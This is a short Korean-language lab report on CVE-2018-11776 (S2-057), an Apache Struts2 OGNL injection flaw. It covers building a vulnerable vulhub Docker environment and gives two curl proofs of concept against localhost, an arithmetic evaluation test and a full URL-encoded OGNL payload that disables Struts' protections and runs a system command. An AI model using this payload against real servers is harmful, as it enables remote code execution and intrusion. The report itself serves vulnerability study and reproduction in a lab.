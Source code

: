 # CVE-2018-11776 Report (S2-057)

## 1. 개요
Apache Struts2의 URL 매핑 처리 취약점을 이용하여 OGNL 인젝션을 통해 원격 코드 실행(RCE)이 가능한 취약점입니다.

## 2. 환경 구축 방법

- 베이스 이미지: `vulhub/struts2:2.3.34-showcase`
- 추가 구성:
  - `struts-actionchaining.xml` 파일을 덮어쓰기하여 취약한 설정 적용
- 포트 매핑: `8080:8080`
- 사용한 파일:
  - `docker-compose.yml`
  - `Dockerfile`
  - `struts-actionchaining.xml`

## 3. 실행 방법

```bash
docker-compose up
```
브라우저 접속: 
```
http://localhost:8080/showcase/
```


## 4. 취약점 PoC
### 4.1 계산식 인젝션 테스트 
```
curl -i "http://localhost:8080/struts2-showcase/%24%7B233*233%7D/actionChain1.action"
```
결과: HTTP Location 헤더에 /54289/ 리다이렉트 → OGNL 인젝션 성공

###
4.2 원격 코드 실행 (RCE) 테스트
```curl -i "http://localhost:8080/struts2-showcase/%24%7B(%23dm=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct=%23request['struts.valueStack'].context).(%23cr=%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou=%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a=%40java.lang.Runtime%40getRuntime().exec('id')).(%40org.apache.commons.io.IOUtils@toString(%23a.getInputStream()))%7D/actionChain1.action"
```

결과: 서버에서 id 명령어 결과 출력 → RCE 성공
